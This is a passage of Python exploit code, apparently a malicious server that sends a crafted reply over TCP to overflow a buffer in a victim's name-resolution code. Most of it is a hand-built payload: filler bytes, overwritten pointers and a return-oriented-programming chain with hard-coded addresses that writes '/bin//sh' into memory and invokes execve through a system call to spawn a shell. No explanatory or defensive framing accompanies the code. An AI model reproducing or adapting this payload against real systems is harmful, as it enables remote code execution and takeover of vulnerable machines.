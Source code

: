 ```

    data1_reply = dw(len(data)) + data

    if data2:
      data = ''
      data += dw(id2)
      data += 'B' * (2106)
      data += dw(0)                           # &ans2p_malloced
      data += dw(0)
      data += 'B' * (8)
      data += struct.pack('<I',0xbfffe1c0)    #host_buffer.buf
      data += struct.pack('<I',0x0804c3a8)    #host_buffer.buf
      data += 'B' * (12)
      data += struct.pack('<I',0xb7fd3000)
      data += struct.pack('<I',0xb7e23301)
      data += struct.pack('<I',0x00000420)
      data += struct.pack('<I',0xbfffef68)
      data += struct.pack('<I',0xb7e59ef4)    #add esp 0x1c

      data += struct.pack('<I',0x08048653)    # &name
      data += struct.pack('<I',0xbfffeee8)    # &pat
      data += struct.pack('<I',0xbfffe9f0)    # &buffer
      data += struct.pack('<I',0x00000420)    # &buflen
      data += struct.pack('<I',0xbfffeee4)    # &errnop
      data += struct.pack('<I',0xbfffeed0)    # &herrnop
      data += struct.pack('<I',0x00000000)    # &ttlp

      data += struct.pack('<I',0xb7f183e0)    #pop ecx;pop eax;ret
      data += '/bin'
      data += struct.pack('<I', 0x0804a018)   # @ .data
      data += struct.pack('<I', 0xb7e5f37f)   # mov [eax] ecx ;;
      data += struct.pack('<I', 0xb7f183e0)   # pop ecx ; pop eax ;;
      data += '//sh'              
      data += struct.pack('<I', 0x0804a01c)   # @ .data + 4
      data += struct.pack('<I', 0xb7e5f37f)   # mov [eax] ecx ;;
      data += struct.pack('<I', 0xb7e706de)   # xor eax eax ;;
      data += struct.pack('<I', 0xb7e5fadb)   # pop ecx ; pop edx ;;
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0x90909090)   # 
      data += struct.pack('<I', 0xb7e60514)   # mov [ecx] eax ; or eax -0x1 ;;
      data += struct.pack('<I', 0xb7e5fadb)   # pop ecx ; pop edx ;;
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0xb7e4d646)   # pop ebx ;;
      data += struct.pack('<I', 0x0804a018)   # @ .data
      data += struct.pack('<I', 0xb7e706de)   # xor eax eax ;;
      data += struct.pack('<I', 0xb7f65c56)   # add eax 0xb ;;
      data += struct.pack('<I', 0xb7fdca70)   # int 0x80 ;;
      
      data2_reply = dw(len(data)) + data
    else:
      data2_reply = None

    reply_now.set()
    time.sleep(0.01)
    conn.sendall(data1_reply)
    time.sleep(0.01)
    if data2:
      conn.sendall(data2_reply)

    reply_now.clear()

  sock_tcp.shutdown(socket.SHUT_RDWR)
```